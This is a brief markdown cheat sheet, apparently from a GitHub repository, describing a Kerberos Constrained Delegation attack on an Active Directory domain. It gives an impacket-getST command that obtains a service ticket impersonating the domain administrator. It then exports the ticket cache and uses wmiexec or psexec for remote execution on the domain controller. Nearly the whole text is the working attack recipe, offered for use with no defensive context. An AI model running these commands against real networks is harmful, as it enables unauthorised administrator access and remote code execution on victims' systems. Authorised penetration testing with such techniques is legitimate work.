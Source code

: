 ## Use this impacket module to perform a Constrained Delegation attack

#### 1) impacket-getST -spn HTTP/DC.DOMAIN.COM -impersonate administrator -dc-ip DC_IP -k -no-pass DOMAIN.COM/USERNAME

#### 2) export KRB5CCNAME=administrator.ccache

#### 3) Use wmiexec or psexec
